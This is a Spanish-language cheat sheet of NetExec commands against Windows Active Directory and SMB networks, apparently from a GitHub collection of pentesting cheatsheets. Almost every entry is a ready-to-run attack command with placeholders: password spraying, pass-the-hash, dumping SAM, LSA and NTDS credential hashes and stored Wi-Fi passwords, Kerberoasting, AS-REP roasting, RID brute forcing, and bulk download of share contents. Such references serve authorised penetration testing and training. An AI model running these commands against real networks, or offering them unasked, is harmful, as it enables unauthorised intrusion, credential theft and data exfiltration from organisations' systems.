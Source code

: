 # NetExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
netexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### SMB con credenciales y especificando a un puerto
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --port <PORT>
```

#### Password Spraying
```
netexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt | grep +
```

#### Spraying Attack con usuario y contraseña
```
netexec smb <IP-ADDRESS> -u users.txt -p passwd.txt
```

#### Spraying Attack usando HashNTLM
```
netexec smb <IP-ADDRESS> -u users.txt -H '<HASH-NTLM>'
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
netexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Spraying Attack con usuario y contraseña lineal
```
netexec smb <IP-ADDRESS> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Enumeración de directorios compartidos SMB con NULL session
```
netexec smb <IP-ADDRESS> -u '' -p ''
netexec smb <IP-ADDRESS> -u 'a' -p ''
```

#### Enumeración de directorios compartidos SMB con NULL session
```
netexec smb <IP-ADDRESS> -u 'null' -p '' --shares
```

#### Descargar un archivo de un directorio compartido
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --share <DIRECTORY-NAME> --get-file <FIEL-NAME> <OUTPUT-NAME>
```

#### Descargar todos los archivos que contenga el servidor
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M spider_plus -o DOWNLOAD_FLAG=True
```

#### Enviar un archivo de un directorio compartido
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --put-file <FIEL-NAME> \\Windows\\Temp\\<OUTPUT-NAME>
```

#### Enumeración de los usuarios del Directorio Activo
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --users
```

#### Enumeración de los grupos del Directorio Activo
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --groups
```

#### Enumeración de los usarios logueados actualmente
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --loggedon-users
```

#### Enumeración de los grupos locales
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --local-group
```

#### PassTheHash
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### Dumping Hashes SAM
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes LSA
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --lsa
```

#### Dumping Hashes NTDS
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --ntds
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
```

#### Obtener la politica de contraseñas del AD
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --pass-pol
```

#### Dumping WIFI Password
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M wireless
```

#### Obtener las descripciones de los usuarios de LDAP
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M get-desc-users
```

#### Enumeración de usuario (Fuerza Bruta) por RID (RID Cycling Attack)
```
netexec smb <IP-ADDRESS> -u 'guest' -p '' --rid-brute
```

#### Ataque de Kerberoasting
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)